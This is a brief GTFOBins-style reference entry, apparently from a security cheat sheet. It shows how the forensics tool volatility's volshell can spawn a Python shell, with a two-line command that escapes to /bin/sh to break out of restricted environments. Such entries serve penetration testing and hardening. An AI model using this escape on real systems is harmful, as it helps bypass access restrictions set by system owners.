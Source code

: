 # GTFOBin: volatility

This command requires some valid coredump file which, if not available, can be uploaded to the target. The `volshell` command spawns a `python` shell, other functions may apply.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
volatility -f file.dump volshell
__import__('os').system('/bin/sh')
```
